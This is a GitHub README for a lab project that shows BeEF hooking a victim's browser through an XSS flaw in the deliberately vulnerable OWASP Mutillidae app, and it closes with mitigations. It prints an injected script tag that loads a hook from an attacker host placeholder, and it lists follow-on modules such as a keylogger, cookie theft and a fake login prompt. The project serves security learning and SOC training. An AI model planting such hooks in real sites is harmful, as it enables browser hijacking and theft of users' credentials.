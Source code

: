 # 🔥 BeEF + Mutillidae XSS Demo

This project demonstrates how to use **BeEF** to hook a browser via a stored/reflected XSS vulnerability in **OWASP Mutillidae II**, and simulate client-side exploitation for educational and SOC analysis purposes.

> ⚠️ This is for **educational use only** in a legal lab environment.

---

## 🧪 Tools Used
- **Kali Linux** with BeEF (`beef-xss`)
- **OWASP Mutillidae II** vulnerable web app
- **Python HTTP Server** (to serve hook files or malicious pages)

---

## 🧷 Scenario

1. Launch BeEF (`sudo beef-xss`)
2. Navigate to Mutillidae > `XSS > Stored XSS`
3. Inject BeEF hook:
   ```html
   <script src="http://<KALI-IP>:3000/hook.js"></script>
   ```
4. Victim browses the vulnerable page → gets hooked by BeEF.
5. Attacker now executes modules (keylogger, port scanner, webcam test...).

---

## 📂 File Structure
- `attack_files/xss_mutillidae_payload.txt`: BeEF XSS injection example
- `report/incident_report.md`: SOC-style incident analysis
- `screenshots/`: Evidence of attack steps

---

## 📸 Screenshots

| Hooked Victim | BeEF Commands |
|---------------|----------------|
| ![hooked](screenshots/hooked_browser.png) | ![cmds](screenshots/beef_command.png) |

---

## 📑 Sample Payload (`xss_mutillidae_payload.txt`)
```html
<script src="http://<KALI-IP>:3000/hook.js"></script>
```

> Injected into a form or URL parameter in Mutillidae

---

## 📖 Report Summary
- Target: Mutillidae (XSS > Stored)
- Hooked Victim Browser via malicious JavaScript
- Demonstrated:
  - Internal network scan
  - Cookie stealing simulation
  - Fake login prompt
- Analysis in `report/incident_report.md`

---

## 🛡️ Mitigation
- Content Security Policy (CSP)
- Input sanitization
- Disabling inline scripts

---

## 🧑‍💻 Author
Roei Ben Simon  
[GitHub » Roeibs100](https://github.com/Roeibs100)

